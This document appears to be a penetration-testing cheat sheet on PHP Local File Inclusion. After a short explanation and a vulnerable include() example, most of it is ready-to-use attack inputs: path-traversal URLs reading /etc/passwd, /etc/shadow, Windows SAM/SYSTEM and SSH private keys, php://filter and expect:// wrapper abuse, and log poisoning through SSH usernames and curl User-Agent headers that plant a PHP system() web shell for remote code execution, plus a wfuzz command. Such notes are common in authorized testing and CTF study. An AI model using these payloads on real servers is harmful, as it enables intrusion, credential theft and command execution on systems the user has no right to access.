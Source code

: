 ## LFI Local File Inclusion
- An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server.
- LFI occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.
- Example:
````
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
````
- In the above example, an attacker could make the following request. It tricks the application into executing a PHP script such as a web shell that the attacker managed to upload to the web server.
````
http://example.com/?file=../../uploads/evil.php
````
- Even without the ability to upload and execute code, a Local File Inclusion vulnerability can be dangerous. 
- An attacker can still perform a Directory Traversal / Path Traversal attack using an LFI vulnerability as follows.
````
http://example.com/?file=../../../../etc/passwd
````
- Testing 
- If you see a webpage URL look like this:
````
/script.php?page=index.html 
````
Test for:
````
/script.php?page=../../../../../../../../etc/passwd
````
### PHP Wrappers
- PHP has a number of wrappers that can often be abused to bypass various input filters.
#### PHP Expect Wrapper
- `PHP expect://` allows execution of system commands, unfortunately the expect PHP module is not enabled by default
````
php?page=expect://ls
````
#### PHP php://filter
`php://filter` allows a pen tester to include local files and base64 encodes the output. Therefore, any base64 output will need to be decoded to reveal the contents.
````
vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd  
````
- `php://filter` can also be used without base64 encoding the output using:
````
?page=php://filter/resource=/etc/passwd
````
### RCE via SSH
- Try to ssh into the box with a PHP code as username <?php system($_GET["cmd"]);?>.
````
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
````
- Then include the SSH log files inside the Web Application.
````
http://example.com/index.php?page=/var/log/auth.log&cmd=id
````
### RCE via Apache logs
- Poison the User-Agent in access logs:
````
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
````
- Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.
- Then request the logs via the LFI and execute your command.
````
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
````
### LFI to RCE via credentials files
- This method require high privileges inside the application in order to read the sensitive files.
#### Windows version
- First extract sam and system files.
````
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
````
- Then extract hashes from these files samdump2 SYSTEM SAM > hashes.txt, and crack them with hashcat/john or replay them using the Pass The Hash technique.
#### Linux version
- First extract /etc/shadow files.
````
http://example.com/index.php?page=../../../../../../etc/shadow
````
- Then crack the hashes inside in order to login via SSH on the machine.
- Another way to gain SSH access to a Linux machine through LFI is by reading the private key file, id_rsa. 
- If SSH is active check which user is being used `/proc/self/status` and `/etc/passwd` and try to access `/<HOME>/.ssh/id_rsa`.
### Wfuzz
- Automate LFI Tests
- Download the `traversal.txt` file (from PayloadAllTheThings)
- Test with `wfuzz`
````
wfuzz -u "http://10.10.218.222/article?name=FUZZ" -w traversal.txt | grep 200
````
- `grep 200` for the `Ok` status code
- `w` -> the wordlist
- `?name=FUZZ` -> the parameter you want to fuzz
  ### Resources
- https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/


















